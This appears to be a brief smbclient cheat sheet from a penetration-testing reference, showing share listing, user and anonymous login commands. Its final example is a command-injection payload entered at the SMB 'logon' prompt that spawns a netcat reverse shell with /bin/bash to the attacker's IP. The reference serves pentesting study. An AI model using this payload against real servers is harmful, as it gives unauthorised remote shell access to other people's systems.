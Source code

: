 # SMBClient
## Examples
### List services on a server
```
smbclient -L $IP
```
###  Login as a user in SMB
```
smbclient -L $IP -U "WorkgroupMasterName"
```
### Anonymous login
```
smbclient //$IP/share
```
### reverse shell with smb on linux if 'logon' command exists
```
smb: \> logon “/=`nc 'myIP' 4444 -e /bin/bash`"
```